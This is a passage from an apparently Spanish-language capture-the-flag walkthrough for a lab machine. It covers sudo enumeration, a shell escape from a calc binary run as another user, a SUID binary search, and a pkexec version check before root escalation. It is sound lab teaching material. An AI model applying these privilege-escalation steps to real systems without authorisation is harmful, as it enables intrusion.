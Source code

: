 Lanzo el comando `sudo -l` para enumerar permisos sudo.

```bash
elliot@responder:~$ sudo -l
sudo: unable to resolve host responder: Nombre o servicio desconocido
Matching Defaults entries for elliot on responder:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User elliot may run the following commands on responder:
    (rohit) NOPASSWD: /usr/bin/calc
elliot@responder:~$ 
```

Puedo ejecutar como el usuario rohit el binario calc.

```bash
elliot@responder:~$ sudo -u rohit /usr/bin/calc --help
```

Una vez lo hemos ejecutado solo debemos introducir `!bash`.

Y ya nos habremos convertido en el usuario rohit.

Y por último nos toca convertirnos en root.

# Escalada de Privilegios

Para ello busco archivos con permisos 4000 usando el comando find.

```bash
rohit@responder:/home/elliot$ find / -perm -4000 -type f 2>/dev/null | xargs ls -la
-rwsr-xr-x 1 root root        54096 jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root        44528 jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root        84016 jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root        51280 ene 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root        44440 jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root        63736 jul 27  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root        23288 ene 15  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root        63568 ene 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root       157192 ene 20  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root        34888 ene 10  2019 /usr/bin/umount
-rwsr-xr-- 1 root messagebus  51184 jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root        10232 mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root       436552 ene 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root        18888 ene 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
```

Y veo que tenemos el binario pkexec... por lo que primero intento averiguar la versión del binario.

```bash
rohit@responder:/home/elliot$ /usr/bin/pkexec --version
pkexec version 0.105
```

Y busco la forma de escalar privilegios con pkexec versión 0.105
